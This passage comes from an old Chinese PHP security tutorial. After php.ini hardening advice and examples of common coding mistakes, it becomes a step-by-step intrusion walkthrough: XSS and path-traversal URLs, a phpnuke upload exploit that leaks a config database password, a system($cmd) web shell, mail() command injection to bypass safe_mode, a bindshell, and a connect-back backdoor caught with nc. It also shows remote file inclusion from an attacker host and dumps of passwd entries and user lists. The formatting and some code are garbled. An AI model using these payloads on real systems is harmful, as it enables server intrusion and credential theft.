这个选项会禁止 PHP 为用户输入创建全局变量，也就是说，如果用户提交表单变量 “hello”，PHP 不会创建 `$hello`，而只会创建 `HTTP_GET/POST_VARS['hello']`。这是 PHP 中一个极其重要的选项，关闭这个选项，会给编程带来很大的不便。

### *** 设置 safe_mode 为 on

打开这个选项，会增加如下限制：
1. 限制哪个命令可以被执行
2. 限制哪个函数可以被使用
3. 基于脚本所有权和目标文件所有权的文件访问限制
4. 禁止文件上载功能

这对于 ISP 来说是一个伟大的选项，同时它也能极大地改进 PHP 的安全性。

### ** 设置 open_basedir

这个选项可以禁止指定目录之外的文件操作，有效地消除了本地文件或者是远程文件被 `include()` 的攻击。但是仍需要注意文件上载和 session 文件的攻击。

### ** 设置 display_errors 为 off，设置 log_errors 为 on

这个选项禁止把错误信息显示在网页中，而是记录到日志文件中。这可以有效的抵制攻击者对目标脚本中函数的探测。

### * 设置 allow_url_fopen 为 off

这个选项可以禁止远程文件功能，极力推荐！

好了，文章到此为止了，如果你想了解一些其它的相关信息，请参考原文 http://www.securereality.com.au/studyinscarlet.txt。

### 3.4 导致PHP程序安全问题的错误案例

经过一段时间的编程与学习，明白了不少关于PHP安全编程的问题，analysist曾经告诉我说学习+实践+总结=提高。所以我要把这段学习和实践总结一下。以前一直看安全编程的文章，虽然编写程序的时候会注意到安全问题，但是编写完成后，还是会出现错误。然而，经过实践得来的经验要比从文章中得来的牢固。在此，我就结合以前编写过的一些程序中的错误，来说说PHP编程中常见的安全问题，给PHP的初级编写者们一个提示。

#### 一、概述

PHP的安全问题主要集中在用户提交的变量上，因为PHP这种语言为了和用户交互，必然要用户输入数据，并且把数据存为变量，然后程序再处理这些用户提交的信息，并且返回处理后的信息给用户，结果导致攻击者提交特殊的数据给程序，使程序错误运行，从而达到攻击者想达到的目的。

#### 二、错误例子分析

##### 1. 一般回显变量的问题

##### 例子：

我最早写的guestbook就有这种问题。由于没有检查用户输入的数据，导致在显示这些数据的时候出现问题。由于编程者一般都检查用户直接输入的变量，而忽略对下拉框可选择的数据输入的检查，还记得原来那个lb5k的跨站脚本攻击漏洞吗？就是由于用户学历的输入用的是这种方式，而编写者又忽略了检查该变量，导致了跨站脚本攻击漏洞的出现。下面我就说说比较容易被忽视检查的变量。程序中有这么一段：

```html
<td width="360">
<select name="sex">
<option value="male">男</option>
<option value="female">女</option>
</select></td>
```

提交后会出现$sex这个变量，这个变量虽然是用户选择的信息，但是用户可以通过URL直接提交$sex这个变量来骗过程序。比如我通过URL提交：

```text
http://shocker.94bb.com/guestbook/guestbook.php?action=add&sex=<script>alert(document.cookie);</script>&........（省略一些变量）
```

程序得到提交后，不经过任何检查，就把我提交的信息显示出来：

```php
echo $sex;
```

结果，用户浏览的时候就会出现弹出窗口，显示用户的Cookie，达到跨站脚本攻击的目的。作为PHP程序的编写者，正则表达式你应该会吧？通过用正则表达式过滤用户提交的$sex变量，可以很好地避免这种错误，如eregi("[<>(),;#|,+--%$\\/]", $sex)。如果该表达式成立，则终止程序的运行或者给出提示信息都是很好的办法，你可以在编程中多考虑一下，也可以根据自己的需要过滤更多的字符（当然，不要连正常运行都不可以了）。

##### 2. 函数中包含变量的问题

对file() readfile() fopen() system() exec() eval() passthru() popen() require() include()等函数中如果包含有用户输入的变量，如，我编写过的一个文章管理程序中显示文章部分有如下代码：

```php
......
<?
$article=@file("date/$filename");
for($i=1;$i<count($article);$i++)
{
    echo $article[$i]."<br>";
}
?>
......
```

当时我想，date文件夹都指定了，还能有什么问题？其实不然，如果用户输入$file=../../../../../../../../etc/passwd呢？通过几次尝试后就可以看到passwd文件，里面是所有用户名。当然，通过这种方式，所有的文件都可以浏览。感觉到危险了吗？所以，还是用正则表达式过滤比较好。而对于system() exec()这类函数更应该注意，因为它们是可以执行命令的。

##### 3. 环境变量的问题

环境变量比较多，现结合我程序中的一个例子说一下$PHP_SELF这个变量引起的问题。我编的目录遍历程序中刚开始有这么一段：

```php
...
if (is_dir($file))
{
    echo "<a href='".$PHP_SELF."?dict=".$file."'>".$file."</a>";
}
...
?>
```

注意到这个$PHP_SELF变量了吗？你可能会觉得，这有什么问题呢？
咱们可以在浏览器中输入如下连接：
http://shocker.94bb.com/tools/dir.php/.../<script>alert('abc')</script>
看到了吗？弹出了窗口显示abc，说明能进行跨站脚本攻击了。这是由于$PHP_SELF变量被伪造的结果。本来$PHP_SELF变量应该是dir.php，可当用户提交上述连接后，$PHP_SELF变量就不是这个了，而是包括了/.../<script>alert('abc')</script>这些东西，结果显示出来就可想而知了。以前一直看到文章说某某程序由于包含了不安全的$PHP_SELF变量从而可以被攻击者绕过，初学者肯定也不太清楚为什么，通过上面的实际例子我想你应该明白了许多吧！

实例分析就先说这么多，其实PHP的安全编程问题不只这些，但是还没有发现实际的例子，所以就不给大家列举了，大家可以参考如下文章：

- http://shocker.94bb.com/tools/article/phpsecurity1.txt
- http://shocker.94bb.com/tools/article/phpsecurity2.txt
- http://shocker.94bb.com/tools/article/phpsecurity3.txt
- http://shocker.94bb.com/tools/article/phpsecurity4.txt

真正做到编写的程序相当安全还是很不容易的，要经过一段时间的学习与实践，相信大家经过实践都可以提高自己的PHP程序的安全性。

## 3.5 如何充分利用phpnuke的漏洞

### phpnuke的漏洞

2001-9-24日的bugtraq里，有一则短短的twlc security division，说明了phpnuke所有版本(除了5.0RC1)的admin.php文件中，存在一个文件上传的漏洞，因为没有对用户的身份进行验证，所以任何一个用户都可以借此拷贝机器上的任意文件到phpnuke或者phpnuke以外的任意一个有权限的目录。有问题的代码出在下面这段：

```php
$basedir = dirname($SCRIPT_FILENAME);
$textrows = 20;
$textcols = 85;
$udir = dirname($PHP_SELF);
if(!$wdir) $wdir="/";
```

```php
if($cancel) $op="FileManager";
if($upload) {
    //^^^^^^
    // +------------------------>只是判断是否 $upload==1，而没有做任何身份的验证
    copy($userfile, $basedir.$wdir.$userfile_name);
    $lastaction = "'UPLOADED ' . $userfile_name --> $wdir";
    // This need a rewrite -----------------------------------------------> OMG! WE AGREEEEEEE lmao
    //include("header.php");
    //GraphicAdmin($hlpfile);
    //html_header();
    //displaydir();
    $wdir2="/";
    chdir($basedir . $wdir2);
    //CloseTable();
    //include("footer.php");
    Header("Location: admin.php?op=FileManager");
    exit;
}
```

phpnuke是一个使用非常广泛的php程序，国内外有许多大的UNIX/GNU/Linux站点都是使用这套程序，而一般使用者都很少disable掉里面一些看起来非常强大，但实则容易出问题的函数。而且phpnuke做出来的页面，风格非常明显，易于辨认，所以san就找了一个国外站点试了试……

#### 简单利用

很直接的利用方法就是，用下面的语句将phpnuke的配置文件config.php拷贝到phpnuke目录下的images/hacked.txt，如下：

```text
http://www.server.net/admin.php?upload=1&file=config.php&file_name=hacked.txt&wdir=/images/
&userfile=config.php&userfile_name=hacked.txt
```

这样通过在浏览器上输入：
http://www.server.net/images/hacked.txt，就可以看到config.php的内容了，当然包括里面的sql密码等敏感信息，比如下面就是该server的config.php片断：

```text
--------------------snip--------------------

# Database & System Config
#
# dbhost: MySQL Database Hostname
# dbuname: MySQL Username
# dbpass: MySQL Password
# dbname: MySQL Database Name
# system: 0 for Unix/Linux, 1 for Windows

$dbhost = "localhost";
$dbuname = "phpnuke";
$dbpass = "nukeitnow";
```

```php
$dbname = "./phpnuke_44";
$system = 0;
------snip------
```

而且，通过这一漏洞，你甚至可以将文件复制到phpnuke以外的目录，比如(这是俺在自己机器上测试的:):

```text
root@somehost:/tmp > ls -la
total 20
drwxrwxrwt    8 root     root        2048 Sep 25 13:37 .
drwxr-xr-x   19 root     root        2048 Feb 28  2001 ..
drwxrwxrwt    2 root     root        2048 Mar  6  2001 .X11-unix
-rw-r--r--    1 root     root         851 Sep 25 13:37 copyme.txt
....
```

在浏览器里输入以下url：

```text
http://www.server.net/admin.php?upload=1&wdir=/../../../../../../../../tmp&userfile=/../../../../../../../../tmp/copyme.txt&userfile_name=/../../../../../../../../tmp/hacked.txt
```

```text
root@somehost:/tmp > ls -la
total 20
drwxrwxrwt    8 root     root        2048 Sep 25 13:37 .
drwxr-xr-x   19 root     root        2048 Feb 28  2001 ..
drwxrwxrwt    2 root     root        2048 Mar  6  2001 .X11-unix
-rw-r--r--    1 root     root         851 Sep 25 13:37 copyme.txt
-rwxr-xr-x    1 wwwrun   wwwrun       851 Sep 25 13:37 hacked.txt
....
```

hacked.txt已经被顺利地复制到/tmp下面了。
通常这时候是先试试看passwd吧……但是当san希望通过指定不同的文件名，来将/etc/passwd文件拷贝到images目录下时，却发生了意外……：
输入如下url：

```text
http://www.server.net/admin.php?upload=1&file=/etc/passwd&file_name=hacked.txt&wdir=/images/&userfile=/etc/passwd&userfile_name=hacked.txt
```

浏览器里返回的结果有这么一句话：

```text
Warning: SAFE MODE Restriction in effect. The script whose uid is 180 is not allowed to access /etc/passwd owned by uid 0 in /home/htdocs/www-edu/admin.php on line 398
```

本来以为这样便将/etc/passwd文件复制到images/hacked.txt了，同样可以通过浏览器来看它，但结果却是不让拷，实在有些扫兴，但这也越发激起了san的斗志……xixi。

#### 文件上传

#### 1、脚本文件

但是只能浏览一些敏感信息，xundi姐姐觉得不太满意，提出要能执行命令的要求，于是san只好再挖空心思……首先是写一个简单的php脚本，如果将它上传到服务器上，便可以利用该脚本执行命令了：

```php
-------------test1.php-------------
<?php
echo "
";
system("$cmd");
echo "
";
?>
-------------test1.php-------------
```

#### 2、上传文件至phpnuke目录下

当执行完比如
http://www.server.net/admin.php?upload=1&file=config.php&file_name=hacked.txt&wdir=/images/&userfile=config.php&userfile_name=hacked.txt
这样的命令后，phpnuke返回的是filemanager的界面，这时我们就可以简单地选择在选择本地的文件后，选择upload把文件传到当前目录下（现在是images/下面），就这样，san把test1.php传上去了……

#### 3、执行命令

在浏览器中输入http://www.server.net/images/test1.php?cmd=id，按照我们的构想，应该返回web server运行者的id号，但结果……
居然返回空白？

#### 4、safe mode

原来是这台web server使用了php的safe mode来运行，下面的例子是从php的安全模式说明文件中摘出来的，比如我们希望在一台以safe mode运行的php web server上执行下面代码：

```php
<?php
readfile('/etc/passwd');
?>
```

结果浏览器会返回如下结果：
> results in this error when Safe Mode is enabled: Warning: SAFE MODE Restriction in effect. The script whose uid is 500 is not allowed to access /etc/passwd owned by uid 0 in /docroot/script.php on line 2

这就是前面我们无法拷贝/etc/passwd的原因了，同样的，在安全模式下，system()调用等等也是被禁止的，我们只能够执行safe_mode_exec_dir里允许的可执行文件，所以，我们的test1.php在这里失去了用武之地……

#### 突破限制

#### 1、突破safe mode

先让我们看看san在他的一篇文章里写到的：

##### 2. mail函数的第五个参数

在php-4.0.5的时候，mail函数引入了第五个参数，用来设置在实际发送邮件的时候增加额外的命令行参数，但是没有很好的检查特殊SHELL命令字符，所以出现执行命令的大问题。就像php手册里的例子：

```
mail("nobody@aol.com", "the subject", $message, "From: webmaster@$SERVER_NAME", "-fwebmaster@$SERVERNAME");
```

这个是存在问题的，如果$SERVER_NAME=;mail san@xfocus.org < /etc/passwd就能把机器的密码发送到我的信箱了。

这里提醒一下，php手册里还有好几个例子存在安全问题的，大家实际使用的时候不要照搬，它只是演示函数的基本功能，理解了就可以了。对于mail函数的这个问题，最简单的我们就不用这个第五个参数，要使用就过滤非法的字符如(;)，还有就是修改php源码包的程序ext/standard/mail.c，在if (extra_cmd != NULL) { 前增加如下一行： extra_cmd=NULL 然后重新编译。

通过这一原理，我们准备突破safe mod的限制了……先看看san写的test2.php

```
--------------------test2.php--------------------

<?
mail("nobody@kk.com", "the subject", $message, "From: webmaster@; cp /etc/passwd /home/htdocs/www-edu/images/kk.txt", "-fwebmaster@; cp /etc/passwd /home/htdocs/www-edu/images/kk.txt");
?>

--------------------test2.php--------------------
```

将test2.php上传到web服务器上并执行后，我们从浏览器中看http://www.somesite.net/images/kk.txt，可以看到，我们已经可以拷贝/etc/passwd了，也就是说，已经突破了safe mod的限制了……下面便是passwd的片断：

```
--------------------------------------------------
kzentner:x:13657:13657:Kerstin Zentner:/home/users/kzentner:/bin/bash
ipoertsc:x:13658:13658:Isabella Poertschacher:/home/users/ipoertsc:/bin/bash
bmarzi:x:13659:13659:Brigitte Marzi:/home/users/bmarzi:/bin/bash
a2kogler:x:13660:13660:Angelika Kogler:/home/users/a2kogler:/bin/bash
dtschisc:x:13662:13662:David Tschische:/home/users/dtschisc:/bin/bash
m2egger:x:13663:13663:Martina Egger:/home/users/m2egger:/bin/bash
ssimoner:x:13664:13664:Susanne Simoner:/home/users/ssimoner:/bin/bash
sberling:x:13665:13665:Silvia elisabeth Berlinger:/home/users/sberling:/bin/bash
--------------------------------------------------
```

好了，那我们就来给自己创建一个shell吧，先是上传了一个普通的bindshell.c（就是创建一个socket而已），然后再传一个test3.php文件对bindshell进行编译：

```
----------------------------test3.php----------------------------
```

php
<?
mail("nobody@kk.com", "the subject", $message,
     "From: webmaster@;gcc /home/htdocs/www--edu/images/bindshell.c -o bind",
     "webmaster@;gcc /home/htdocs/www--edu/images/bindshell.c -o bind");
?>

----------------------------test3.php----------------------------

test4.php文件用来运行这一绑定端口的程序bind，程序中定义了端口绑定于1234。

php
<?
mail("nobody@kk.com", "the subject", $message,
     "From: webmaster@;/home/htdocs/www--edu/images/bind",
     "webmaster@;/home/htdocs/www--edu/images/bind");
?>

----------------------------test4.php----------------------------

分别运行完test3.php和test4.php之后，我们在自己的机器上：

bash
[san@redhat:/tmp]# nc www.somesite.net 1234
[san@redhat:/tmp]#

```

连接不上？想看看是否打开了端口，于是再上传一个test5.php看看netstat情况：

```
php
<?
mail("nobody@kk.com", "the subject", $message,
     "From: webmaster@;netstat -na >/home/htdocs/www--edu/images/netstat.txt",
     "webmaster@;netstat -na >/home/htdocs/www--edu/images/netstat.txt");
?>

```

运行了test5.php之后，我们察看http://www.server.net/images/netstat.txt，发现结果是：

```
text
netstat -na
/proc/net/tcp: Permission denied
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State




```

居然权限不够，实在恼火，用同样的方法察看ps -awx情况后，发现进程正常运行，因此san估计可能是firewall将端口过滤了，所以决定……

# 2. 突破firewall

从一大堆的代码里挑出这个connect-back的backdoor，代码很简单，如下：
用前面所述的方法，将back.c编译成back，在本地机器上起一个监听端口：

```
C:\temp\nc -l -vv -p 4000
```

然后再传上一个test6.php来运行back这个反向连接的程序(里面的*.*.*.*是san的IP地址)：

```
------------------------test6.php------------------------
<? mail("nobody@kk.com", "the subject", $message, "From: webmaster@;/home/htdocs/www--edu/images/back *.*.*.*", "webmaster@;/home/htdocs/www--edu/images/back *.*.*.*"); ?>
------------------------test6.php------------------------
```

运行test6.php后，我们前面开启的nc端口终于收到对方服务器发来的数据包：

```
C:\temp\nc -l -vv -p 4000
listening on [any] 4000 ...
connect to [*.*.*.*] from www.server.net [*.*.*.*] 2259

[ Digit—Labs Connect—Back Backdoor ]
* Connected to Commandline...
id <---------------- 我们的权限
uid=180(aphttpd) gid=180(aphttpd) groups=180(aphttpd),11(tmp)
w <---------------- 谁在系统里
10:43am up 24 days, 14:41, 0 users, load average: 0.10, 0.14, 0.11
USER    TTY    FROM    LOGIN@    IDLE    JCPU    PCPU    WHAT
pwd <---------------- 当前目录是什么
/home/htdocs/www--edu/images
ps awx|grep sendmail <---------------- 看看这个让我们进入系统的后门进程吧：)
1773 ?    S    0:00 sh -c /usr/sbin/sendmail -t -i webmaster@;/home/htdocs/www--edu/
images/back *.*.*.*
```

好了，到现在这台服务器对san而言似乎已经失去诱惑力了，xixi，这就是san啊；）

#### 结束语

+   1. 简单修补

由此可见，这个phpnuke的漏洞算是相当严重的，这里就不重复那些web编程的注意要点了，简单地修正这一漏洞，只需要把下面这句：

```
"if($upload) {"
```

改成：

```
"if (($upload) && ($admintest)) {"
```

就OK了，当然，如果你没有必要使用filemanager的话，把这一函数disable掉，或者不让启动webserver的用户(通常是nobody或者www)有权限修改web路径下的文件吧。

+   2、如果利用某些开放源代码的程序的话，一要做代码审核，二要禁止掉一些危险的函数。

+   3、web server的权限设置要搞好。(在9-25日时，绿色兵团也一样存在这个漏洞，当然，它web server设置得比较好，但也还是可以通过其它手段尝试绕过限制的)。

+   4、进行web攻击的时候，往往会遇到很多意外事件(比如这次遇到的safe mod)，这时要尝试不同的方法和思路来突破……

### 3.6 一次虚拟的入侵经过

这是一次虚拟入侵，因为这次入侵的过程都是虚拟的，但这次入侵又非常地真实，因为我们完全可以按照其中介绍的方式入侵任何一个类似的网站。

+   - 我们即将入侵的主机基本情况如下：
- 操作系统：RedHat Linux v7.1
- 主机地址：http://www.notfound.org
- Web服务器：Apache v1.3.20

好了，废话少说，我们开工吧！一般来说，如果一个网站管理员比较勤快的话，我们应该很难从操作系统和Web服务器上找到漏洞，而这个管理员看起来就属于比较勤快的那种，我们在做了一些简单的测试之后，最终决定从CGI入手。

经过一些时间的观察和分析，我们发现这个网站上运行的CGI程序主要有两个，一个是论坛，名字没听说过，另一个是ExGB GuestBook。随便试了一下那个论坛，感觉应该是比较安全的，至少错误处理做的不错，我提交了几个特殊的请求连一点系统信息都没搞到，看来是找不到什么突破口了。但是ExGB GuestBook呢？漏洞可是很多的呀，如果你想知道漏洞的具体细节，可以访问下面的链接：

+   - ExGB GuestBook泄露注册用户信息漏洞：
  http://v7.51.net/exploites/gbook1.txt
- ExGB GuestBook泄露超级管理员密码漏洞：
  http://v7.51.net/exploites/gbook2.txt
- ExGB GuestBook覆盖任意“.php”文件漏洞：
  http://v7.51.net/exploites/gbook3.txt

好了，我们先来看看这个留言簿的注册用户信息，在IE地址栏输入：

http://www.notfound.org/gbook/data/user.list

看看我们看到了什么？

```
820
medana|: :|cctv6|: :|medana@163.net|: :|http://souce.myrice.com|: :|xing xing liu yan
23423432|: :|1111|: :|111@sina.com|: :|http://333.com|: :|我的留言
stzzx|: :|sohu.com|: :|honker2003@21cn.com|: :|http://stzzx.k666.com|: :|我的留言本
jiayk|: :|kingshan|: :|ni13@china.com|: :|http://foolqq.myetang.com|: :|科幻城
……
```

哈哈……注册用户很多嘛，有800多个，看来 的确是个比较知名的大站了，但是为什么要用这么差劲的CGI程序呢？难道就因为这个CGI程序的知名度？知名度高就一定好吗？//sigh…现在的人啊！

我对这些注册用户的信息本身不感兴趣，但是我很想研究一下人们喜欢用什么样的字符串作为密码，所以我写了个小程序来分离出注册用户的帐号和密码，源代码如下：

```
#! /usr/bin/perl
# this tool is designed by analysisist
# welcome to visit http://www.china4lert.org

$ARGC=@ARGV;
if ($ARGC != 1) {
```

print "Usage: $0 <datafile>\n";
exit(1);
}

$datafile=shift;
if (!(-e $datafile)) {
    print "File not found\n";
}

$user="user.db";
$pass="pass.db";
if (-e $user) {
    unlink $user;
}
if (-e $pass) {
    unlink $pass;
}

open (DATA, $datafile);
open (USER, ">>$user");
open (PASS, ">>$pass");
while ($line=<DATA>) {
    if ($line =~ /^|!:!|\/) {
        @data=split(/^|!:!|\/, $line);
        print USER $data[0]."\n";
        print PASS $data[1]."\n";
    }
}
```

```text
adm:x:3:4:adm:/var/adm:
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:
operator:x:11:0:operator:/root:
httpd:x:80:80:HTTPD user:/home/httpd:
kiosk:x:90:90:Airforce Kiosk account:/home/kiosk:/bin/bash
nobody:x:99:99:Nobody:/:
roadshow:x:95:95::/home/roadshow:/bin/bash
airforce:x:91:91::/home/airforce:/bin/bash
afleads:x:92:92::/home/afleads:/bin/bash
```

好了，再看看系统中有谁在：

```text
http://www.notfound.org/forum/forum.php?langdir=http://www.hacker.com&langfile=cmd.php
```

```text
11:28am up 6 days, 20:37, 5 users, load average: 1.00, 1.00, 1.00
USER    TTY     FROM                LOGIN@   IDLE   JCPU   PCPU   WHAT
```

好像没人在哦，呵呵。。。
这会在该服务器上执行“http://www.hacker.com/”主机上的“cmd.php”文件，该文件的内容为：

```php
<?php
    passthru("w");
?>
```

需要注意的是，攻击服务器（也就是www.hacker.com）应该不能执行PHP代码，否则攻击代码会在攻击服务器，而不是目标服务器执行，如果你想了解具体的技术细节，请参考：http://www.securereality.com.au/sradv00006.txt。
好了，现在我们已经拥有了该服务器的读、写和执行的权限，虽然还不是root用户，但已经足够了，余下的工作就留给你自己去做吧。

## 3.7 一次虚拟的安全检测及修复方法

声明：本文主要是以教育为目的，请勿利用文中提及的内容做任何违法行为，否则后果自负。

## 一、资料收集

前些日子在一个规模比较大的网络社区呆了一段时间，对它的安全性产生了一些兴趣。
首先，笔者所做的是收集一些系统资料，我们可以使用Nmap来对远程主机进行操作系统以及开放端口的一些资料收集。

```text
X:\Attack\nmap>Nmap -sS -O -vv www.fakesite.com  //使用SYN方式对其进行端口扫描返回
```

的资料很多，主要开放的端口是80，3306，并且远程为Windows 2000 Server操作系统。
因此，可以确定对方管理员是使用PHP + MYSQL（似乎他还选择了Apache）。
以下为该网站的主要框架：

让我们继续获取系统资料，而论坛则是个获取资料的好地方。

它所有帖子的浏览地址均为`http://www.fakesite.com/forum/guest_book.php?user_number=ID`号。由于该论坛的程序编写方面存在一些问题，没有对ID号进行限制。因此，我在IE浏览器中输入`http://www.fakesite.com/forum/guest_book.php?user_number=99`在试图连接ID号为99的论坛时，该论坛的代码发生了错误。

IE浏览器返回以下内容：

```text
Warning: Supplied argument is not a valid MySQL result resource in

d:\home\fakesite.com\forum\guest_book.php on line 300
```

从上面的内容我们得知了远程主页的绝对路径。

根据上面的这些信息，再加上现在很多网站都不是自己开发论坛或者聊天室，而是使用一些免费代码等等，此时我的鼻子似乎闻到了一点点漏洞的气味。果然，在论坛的帮助文件中，我得知了该论坛的真实名称——Demon Board。

下面要做的就是收集到该论坛的源代码。Google.com就是一个不错的选择，不一会儿我就得到了一个可用的下载地址，不过似乎是个修订版。不过，从该修订版的说明文件来看，修订作者似乎没有对论坛的代码做多大的改写。

## 二、程序测试

下载完程序代码后，我做的第一件事就是查看管理区是否存在安全问题。

管理区的登陆口是`admin.php`文件，而核心设置区的文件为`manage_setup.php`（通过该文件能够修改管理员的账号和密码）。

以下为这两个文件的主要代码：

### 管理区登陆页面(admin.php)

```php
@session_start();
include("./lib/lib_mysql.php");
include("./lib/lib.php");
require "./lib/setup.php";
if($submit)
{
    if($username!=$super_id||$pwd!=$super_pwd)
    {
        error("用户名或密码错误");
    }else
    {
        $pass="OK";
        session_register("pass");
        succ($username.'，您的身份已经确认！请稍候，正在进入论坛管理页面！','guest_class_admin.php');
    }
}
```

### 核心设置区(manage_setup.php)

```php
@session_start();
include("./lib/lib.php");
if(empty($pass))
{
    echo "<meta http-equiv='refresh' content='0,url=./admin.php'>";
    exit;
}
```

以下为那两个程序的工作流程图：




工作流程图（1）


工作流程图（2）

从上面这个流程示意图来看，该论坛的作者还有蛮有心计的——利用 Session 来管理用户的登陆，而不是 Cookie。从而从一定程度上防止了由于程序设计，而带来的跨站攻击（当然，这只是一小部分，用户名和密码是不会被截取到，而如果有人扩展了跨站攻击的话，例如利用 IE 的各种问题，给浏览该论坛的用户种植键盘记录器，甚至木马。那么后果就不堪设想了）。

